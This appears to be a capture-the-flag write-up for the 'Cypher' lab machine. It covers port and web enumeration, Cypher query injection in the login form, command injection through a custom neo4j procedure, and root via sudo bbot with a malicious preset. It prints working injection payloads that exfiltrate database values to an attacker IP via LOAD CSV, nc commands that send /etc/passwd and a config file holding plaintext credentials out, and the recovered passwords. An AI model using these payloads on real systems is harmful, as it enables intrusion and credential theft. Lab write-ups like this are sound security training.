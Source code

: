 # Cypher - medium

## Enumeration

```
sudo nmap 10.10.11.57 -p-          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 09:19 EDT
Nmap scan report for 10.10.11.57
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.11 seconds
```

```
sudo nmap 10.10.11.57 -p 22,80 -sC -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 10:50 EDT
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

### File Enumeration

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-files.txt  -u http://cypher.htb/FUZZ -mc all -fc 404  
...
index.html              [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 31ms]
login.html              [Status: 200, Size: 3671, Words: 863, Lines: 127, Duration: 29ms]
.                       [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 32ms]
about.html              [Status: 200, Size: 4986, Words: 1117, Lines: 179, Duration: 37ms]
logo.png                [Status: 200, Size: 206674, Words: 651, Lines: 876, Duration: 28ms]
:: Progress: [37050/37050] :: Job [1/1] :: 1169 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
```

### Directories Enumeration
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://cypher.htb/FUZZ -mc all -fc 404
...
about                   [Status: 200, Size: 4986, Words: 1117, Lines: 179, Duration: 31ms]
index                   [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 32ms]
#                       [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 33ms]
                        [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 33ms]
login                   [Status: 200, Size: 3671, Words: 863, Lines: 127, Duration: 33ms]
demo                    [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
api                     [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
testing                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 28ms]
                        [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 27ms]
```


After some tests we find that the `login request` is vulnerable to `cypher command injection`. </br>
Putting a `single quote` in the username generate an error message:
```
{"username":"test'","password":"0"}
```
The application uses `neo4j` and `cypher`, which is a query language. </br>
The error message gives the broken cypher query:
```
neo4j.exceptions.CypherSyntaxError: ...
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'wdf'' return h.value as hash"                                    
```

We can craft malicious queries ands extract informations from the database. </br>

Like finding the keys of the object `USER` and `SHA1` :
```
{"username":"1' OR 1=1 LOAD CSV FROM 'http://10.10.16.104:9999/'+keys(h)[0] AS hash RETURN ''//","password":"0"}


{"username":"1' OR 1=1 LOAD CSV FROM 'http://10.10.16.104:9999/'+keys(u)[0] AS hash RETURN ''//","password":"0"}

Keys
h.value
u.name
```

And find the content:
```
{"username":"1' OR 1=1 LOAD CSV FROM 'http://10.10.16.104:9999/'+h.value AS hash RETURN ''//","password":"0"}


{"username":"1' OR 1=1 LOAD CSV FROM 'http://10.10.16.104:9999/'+u.name AS hash RETURN ''//","password":"0"}

graphasm = u.name
9f54ca4c130be6d529a56dee59dc2b2090e43acf = h.value
```

With these credentials we get a valid `access-token`:
```
{"username":"graphasm' OR 1=1 return 'd033e22ae348aeb5660fc2140aec35850c4da997' as hash //","password":"admin"}
```

On the **demo** page, we have the possibility to make cypher queries, nothing more. </br>
After some researches we found customizable procedures in the `neo4j` database:
```
SHOW PROCEDURES;
```

The first result is a customable procedure named `custom.getUrlStatusCode`
```
 {
    "name": "custom.getUrlStatusCode",
    "description": "Returns the HTTP status code for the given URL as a string",
    "mode": "READ",
    "worksOnSystem": false
  },
```

The procedure takes an URL as argument and return the HTTP status code. This procedure is vulnerable to command injection:
```
CALL custom.getUrlStatusCode('; whoami'); 
```

We will exploit this vulnerabilty to extract files: 
```
CALL custom.getUrlStatusCode('http://10.10.14.16:1234/ ; cat /etc/passwd | base64 | nc 10.10.14.16 9999'); 
```

The password of the user `graphasm` is located in a file in the home directory:
```
CALL custom.getUrlStatusCode('http://10.10.14.16:1234/ ; cat /home/graphasm/bbot_preset.yml | base64 | nc 10.10.14.16 9999'); 
  
echo -n 'dGFyZ2V0czoKICAtIGVjb3JwLmh0YgoKb3V0cHV0X2RpcjogL2hvbWUvZ3JhcGhhc20vYmJvdF9z
Y2FucwoKY29uZmlnOgogIG1vZHVsZXM6CiAgICBuZW80ajoKICAgICAgdXNlcm5hbWU6IG5lbzRq
CiAgICAgIHBhc3N3b3JkOiBjVTRidHlpYi4yMHh0Q01DWGtCbWVyaEsK' | base64 -d       
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

We can connect to the machine with the creds `graphasm:cU4btyib.20xtCMCXkBmerhK`


## Privelge Escalation 

The user have sudo rigths:
```
graphasm@cypher:~/bbot-privesc$ sudo -l 
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

We can execute `bbot` as root. </br>

On github, we find a malicious configuration of bbot wich executes a shell

https://github.com/Housma/bbot-privesc

```
sudo /usr/local/bin/bbot -t dummy.com -p ./preset.yml --event-types ROOT
```